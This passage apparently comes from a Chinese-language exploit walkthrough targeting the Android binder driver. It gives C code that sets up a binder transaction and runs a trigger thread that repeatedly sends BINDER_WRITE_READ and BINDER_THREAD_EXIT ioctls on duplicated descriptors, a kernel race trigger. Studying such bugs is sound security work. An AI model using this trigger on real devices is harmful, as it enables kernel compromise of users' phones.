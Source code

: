 ```c
    }

    /*
     * Binder transaction data referencing the offset and object buffers
     */
    struct binder_transaction_data btd2 = {
        .flags = TF_ONE_WAY, /* we don't need a reply */
        .data_size = 0x28 * nb,
        .offsets_size = 8 * nb,
        .data.ptr.buffer = MEM_ADDR  + 0x400,
        .data.ptr.offsets = MEM_ADDR + OFFSETS_START,
    };

    uint64_t txn_size = sizeof(uint32_t) + sizeof(btd2);

    /* Transaction command */
    *(uint32_t*)(MEM_ADDR + 0x200) = BC_TRANSACTION;
    memcpy((void*)(MEM_ADDR + 0x204), &btd2, sizeof(btd2));

    /* Binder write/read structure sent to binder */
    struct binder_write_read bwr = {
        .write_size = txn_size * (1), // 1 txno
        .write_buffer = MEM_ADDR + 0x200
    };
    memcpy((void*)(MEM_ADDR + 0x100), &bwr, sizeof(bwr));
}
```

open("/dev/binder",O_RDWR),入队，然后出队

```c
void *trigger_thread_func(void *argp) {
    unsigned long id = (unsigned long)argp;
    int ret = 0;
    int binder_fd = -1;
    int binder_fd_copy = -1;

    // Opening binder device
    binder_fd = open("/dev/binder", O_RDWR);
    if (binder_fd < 0)
        perror("An error occured while opening binder");

    for (;;) {
        // Refill the memory region with the transaction
        init_binder_transaction(1);
        // Copying the binder fd
        binder_fd_copy = dup(binder_fd);
        // Sending the transaction
        ret = ioctl(binder_fd_copy, BINDER_WRITE_READ, MEM_ADDR + 0x100);
        if (ret != 0)
            debug_printf("BINDER_WRITE_READ did not work: %d", ret);
        // Binder thread exit
        ret = ioctl(binder_fd_copy, BINDER_THREAD_EXIT, 0);
        if (ret != 0)
            debug_printf("BINDER_WRITE_EXIT did not work: %d", ret);
        // Closing binder device
        close(binder_fd_copy);
    }

    return NULL;
}
```
